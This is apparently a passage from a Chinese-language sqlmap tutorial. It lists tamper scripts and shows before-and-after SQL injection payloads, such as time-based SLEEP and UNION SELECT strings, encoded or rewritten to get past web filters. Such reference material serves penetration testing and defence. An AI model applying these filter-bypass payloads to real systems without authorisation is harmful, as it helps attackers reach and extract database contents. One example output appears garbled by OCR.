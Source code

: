 | 45   | space2mssqlhash           | 空格替换为%23%0A                       |
| 46   | space2mysqlblank          | 空格替换为其他空白符号                 |
| 47   | space2mysqldash           | 空格替换为–%0A                         |
| 48   | space2plus                | 空格替换为加号                         |
| 49   | space2randomblank         | 空格替换为备选字符集中的随机字符       |
| 50   | symboliclogical           | AND和OR替换为&&和\|\|                  |
| 51   | unionalltounion           | union all select替换为union select     |
| 52   | unmagicquotes             | 宽字符绕过GPC                          |
| 53   | uppercase                 | 全部替换为大写值                       |
| 54   | varnish                   | 添加HTTP头                             |
| 55   | versionedkeywords         | 用注释封装每个非函数的关键字           |
| 56   | versionedmorekeywords     | 使用注释绕过                           |
| 57   | xforwardedfor             | 添加伪造的HTTP头                       |

## 6x02  常用tamper脚本 示例

```
apostrophemask.py
适用数据库：ALL 
作用：将引号替换为utf-8，用于过滤单引号 
使用脚本前：tamper("1 AND '1'='1") 
使用脚本后：1 AND %EF%BC%871%EF%BC%87=%EF%BC%871

base64encode.py
适用数据库：ALL 
作用：替换为base64编码 
使用脚本前：tamper("1' AND SLEEP(5)#") 
使用脚本后：MScgQU5EIFNMRUVQKDUpIw==

multiplespaces.py
适用数据库：ALL 
作用：围绕sql关键字添加多个空格 
使用脚本前：tamper('1 UNION SELECT foobar') 
使用脚本后：1 UNION SELECT foobar

space2plus.py
适用数据库：ALL 
作用：用加号替换空格 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT+id+FROM+users

nonrecursivereplacement.py
适用数据库：ALL 
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空） 
使用脚本前：tamper('1 UNION SELECT 2--') 
使用脚本后：1 UNIOUNIONN SELESELECTCT 2--

space2randomblank.py
适用数据库：ALL 
作用：将空格替换为其他有效字符 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT%0Did%0DFROM%0Ausers

unionalltounion.py
```